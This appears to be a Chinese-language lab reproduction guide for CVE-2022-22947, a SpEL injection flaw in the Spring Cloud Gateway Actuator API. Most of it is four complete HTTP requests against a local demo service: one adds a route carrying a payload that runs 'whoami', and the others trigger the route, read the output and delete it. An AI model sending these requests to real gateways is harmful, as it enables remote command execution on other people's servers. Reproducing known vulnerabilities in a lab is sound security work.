


# Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。


## 漏洞环境

[环境搭建过程](环境搭建)

服务启动后，访问`http://your-ip:9000`即可看到演示页面  

## 漏洞复现


1. 首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```


2. 发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



3. 发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```


4. 最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```


## poc 输出结果
